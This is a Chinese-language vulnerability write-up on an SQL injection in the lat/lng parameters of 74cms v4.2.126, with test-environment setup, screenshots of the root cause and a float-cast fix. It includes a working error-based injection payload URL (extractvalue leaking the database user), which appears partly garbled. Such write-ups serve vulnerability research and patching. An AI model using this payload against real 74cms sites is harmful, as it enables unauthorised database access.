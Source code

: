 ```yaml
---
title: 74cms v4.2.126-通杀sql注入
id: zhfly2790
---
```


# 74cms v4.2.126-通杀sql注入

# 0x00 前言

厂商：74cms
下载地址：[http://www.74cms.com/download/index.html](http://www.74cms.com/download/index.html)

关于版本：
新版的74cms采用了tp3.2.3重构了，所以可知底层是tp，74cms新版升级是后台升级的，所以先将将升级方法。

注：此漏洞不用升级至最新版本也可使用。

# 0x01 74cms升级到最新版

1， 先去官网下载 骑士人才系统基础版(安装包)
2， 将下载好的包进行安装
3， 进入后台点击查看如果不是最新版的话，请点击升级！
4， 如果是本地环境的话，会提示 域名不合法升级失败，这个问题很好解决
5， 搜索文件74cms\upload\Application\Admin\Controller\ApplyController.class.php
6， 查找所有$_SERVER['HTTP_HOST'] 改为  [http://baidu.com](http://baidu.com) 即可

# 0x02 数据填充不然没得测试

![image](../img/3fe62a8eed43c49595c5bf54590aba34.png)

## 0x02.1注册商家账号方便测试

首先先注册一个商家用户然后发布一条消息，注册商家直接去后台注册最简单了
注册完成以后将此商家用户登录前台

![image](../img/ea437e63c6c56be128734873e7babe77.png)

## 0x02.2注册普通账号方便测试

![image](../img/6310874b16efcc72a7a7a1b3214ca540.png)

# 0x03 sql漏洞演示

![image](../img/9c3b6002414c37c5d548a5251ff441be.png)

![image](../img/e58fa00db554ba954975de9d2d1abbc8.png)

这样的话只要点击完以后有数据 你在 lat  lng  字段都可以正常的进行注入

```
Payload: 
http://74cms.test/index.php?m=&c=jobs&a=jobs_list&lat=23.176465&range=20&lng=113.35038 PI() / 180 - map_x  PI() / 180) / 2),2))) * 1000) AS map_range FROM qs_jobs_search j WHERE (extractvalue (1,concat(0x7e,(SELECT USER()), 0x7e))) -- a 
```

![image](../img/dc5afc5d8980ba31d4b21b5196b62455.png)

# 0x04 漏洞原理

![image](../img/12181c83057ba0b29473c4ebee849ac6.png)

![image](../img/2cb872ee1ecfb38317c2132352642f2a.png)

![image](../img/5c9ad1285ef047c5630a27806d06a597.png)

![image](../img/7a1ab26c205d69b422c0b9609b79000c.png)

![image](../img/3d1f082baac09fe46573881702eb9d1d.png)

![16.png](../img/4ce2f9b3822b72662557e784aa7e16a8.png)

说明我们的猜想是没有错的。

![image](../img/2f09d93e975a54ccb17a6394a1096ec3.png)

![image](../img/cbdfcc8b48baffe37460d2d0ee6c5284.png)

所以最终我们符合条件的内容都会赋值为$this->params

![image](../img/4bee7dcbc4d92a65c0ad8385819d4d8a.png)

![image](../img/ea437e63c6c56be128734873e7babe77.png)

![image](../img/8c84751216621f071101132a3ed465f3.png)

# 0x05 修复方法

![image](../img/b956cd9d01ec83ae1057c1cb79160bf9.png)

```
$this->field = "id,ROUND(6378.138*2*ASIN(SQRT(POW(SIN((".floatval($this->params['lat'])."*PI()/180-map_y*PI()/180)/2),2) COS(".floatval($this->params['lat'])."*PI()/180)*COS(map_y*PI()/180)*POW(SIN((".floatval($this->params['lng'])."*PI()/180-map_x*PI()/180)/2),2)))*1000) AS map_range"; 
```

强转为浮点型，防止注入

## 四、参考链接

> https://www.yuque.com/pmiaowu/bfgkkh/iwgmb2
